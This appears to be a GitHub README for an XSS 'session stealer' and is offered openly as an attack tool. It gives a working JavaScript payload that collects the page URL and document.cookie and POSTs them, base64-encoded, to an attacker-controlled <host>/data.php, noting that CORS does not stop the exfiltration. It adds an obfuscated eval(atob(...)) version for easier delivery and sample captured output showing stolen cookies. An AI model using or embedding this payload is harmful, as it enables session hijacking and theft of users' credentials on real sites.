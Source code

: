 # Session Stealer (Cross-site Scripting)

Using the JavaScript payload found below will result in a XHR POST request containing the current URL (including variables) and Cookie(s) (if available).

As the following payload does not process the XHR response, it will report the data regardless of the Cross-Origin Resource Sharing (CORS) configuration.

The `data.php` file will create or append the data received to `output.txt`.

Data can be read directly from `output.txt` or using the included `output.php` file to process a cleaner output.



## JavaScript Payload

```
var xhttp = new XMLHttpRequest();
xhttp.open("POST", "https://<host>/data.php", true);
xhttp.setRequestHeader("Content-type", "application/x-www-form-urlencoded");
var data = "URL: " + window.location.href
if (document.cookie.length > 0) { data = data + " - Cookie(s): " + document.cookie; }
xhttp.send("data=" + btoa(data));
```

Payloads are often easier to deliver when encoded:

```
eval(atob("<base64_encoded_payload>"));
```
```
eval(atob("dmFyIHhodHRwID0gbmV3IFhNTEh0dHBSZXF1ZXN0KCk7CnhodHRwLm9wZW4oIlBPU1QiLCAiaHR0cHM6Ly88aG9zdD4vZGF0YS5waHAiLCB0cnVlKTsKeGh0dHAuc2V0UmVxdWVzdEhlYWRlcigiQ29udGVudC10eXBlIiwgImFwcGxpY2F0aW9uL3gtd3d3LWZvcm0tdXJsZW5jb2RlZCIpOwp2YXIgZGF0YSA9ICJVUkw6ICIgKyB3aW5kb3cubG9jYXRpb24uaHJlZgppZiAoZG9jdW1lbnQuY29va2llLmxlbmd0aCA+IDApIHsgZGF0YSA9IGRhdGEgKyAiIC0gQ29va2llKHMpOiAiICsgZG9jdW1lbnQuY29va2llOyB9CnhodHRwLnNlbmQoImRhdGE9IiArIGJ0b2EoZGF0YSkpOw=="));
```

## Output (via output.php)
```
Wed, 22 Jan 2020 19:45:10 +0000 - 216.58.204.142 - URL: https://www.youtube.com/watch?v=dQw4w9WgXcQ - Cookie(s): GPS=1; CONSENT=WP.282c94; dkv=a429137dbfccc284af4358caae87b369e3QEAAAAdGxpcGkVfCheMA==
```
